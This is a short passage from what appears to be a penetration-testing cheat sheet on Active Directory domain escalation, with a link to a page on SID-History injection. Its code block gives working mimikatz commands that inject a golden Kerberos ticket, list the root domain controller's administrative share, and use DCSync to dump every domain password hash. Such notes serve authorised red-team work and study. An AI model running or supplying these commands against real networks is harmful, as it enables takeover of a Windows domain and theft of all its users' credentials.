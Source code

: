 ```
kerberos::ptt \path\to\ticket\golden.kirbi

#List the DC of the Root Domain
dir \\dc.root.domain.local\C$

#Or DCsync and dump the hashes using mimikatz
lsadump::dcsync /domain:root.domain.local /all
```
## SID-History injection
[SID-History Injection - Pentest Everything (gitbook.io)](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/access-token-manipultion/sid-history-injection)
